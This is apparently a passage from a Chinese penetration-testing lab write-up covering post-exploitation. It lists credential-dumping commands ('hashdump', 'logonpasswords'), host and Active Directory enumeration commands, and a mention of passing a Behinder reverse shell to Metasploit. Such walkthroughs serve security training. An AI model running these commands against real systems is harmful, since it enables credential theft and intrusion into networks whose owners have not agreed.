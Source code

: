 
### 信息收集

#### 抓取明文密码

```
hashdump
logonpasswords
```

![image-20220907163238560](2.assets/image-20220907163238560.png)



#### 主机信息

> 常用命令
>
> systeminfo  				//查看操作系统信息
> ipconfig /all  				//查询本机ip段，所在域等
> whoami   					//查看当前用户权限
> net user						//查看本地用户
> net localgroup administrators	//查看本地管理员组(通常 包含域用户)



系统信息

![image-20220908182619727](2.assets/image-20220908182619727.png)



IP 信息

![image-20220908183702411](2.assets/image-20220908183702411.png)

两个网络

> 192.168.111.80
>
> 10.10.10.80



还是 MSF 用着顺手，用冰蝎反弹 Shell 过去

![image-20220908184546973](2.assets/image-20220908184546973.png)



#### 域信息收集

> 常用命令：
>
> net config workstation     				// 查看当前计算机名，全名，用户名，系统版本，工作站域，登陆的域等
> net view /domain              				// 查看域
> net time /domain          					// 主域服务器会同时作为时间服务器
> net user /domain      						// 查看域用户
> net group /domain							// 查看域内用户组列表
> net group "domain computers" /domain      	// 查看域内的机器
> net group "domain controllers" /domain          // 查看域控制器组
> net group "Enterprise Admins" /domain   		// 查看域管理员组
